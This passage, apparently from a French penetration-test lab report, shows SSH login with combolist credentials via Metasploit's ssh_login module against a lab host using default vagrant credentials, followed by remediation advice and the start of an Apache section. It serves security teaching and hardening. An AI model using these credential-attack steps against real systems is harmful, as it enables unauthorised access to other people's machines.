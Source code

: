 Grâce à nos combolists, on a réussi à obtenir login et mot de passe.

#### 🚀 Étape 3 – Exploitation
Via Metasploit :  
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.32
set USERNAME vagrant
set PASSWORD vagrant
run
```

#### 📸 Résultat
- Connexion réussie :  
```bash
session -i 1
whoami
uname -a
```

![alt text](image-5.png)

#### ✅ Conclusion
- **Impact** : accès à distance à la machine, compromission de comptes faibles.  
- **Recommandations** :  
  - Interdire l’accès SSH root.  
  - Désactiver les comptes par défaut.  
  - Mettre à jour OpenSSH.  
  - Utiliser l’authentification par clé publique.  

---

### 4.2 🔹 Apache (80/tcp – Apache HTTPD 2.4.7)

#### 🎯 Objectif
Analyser et exploiter le serveur web exposé sur le port 80 afin d’identifier d’éventuelles vulnérabilités.
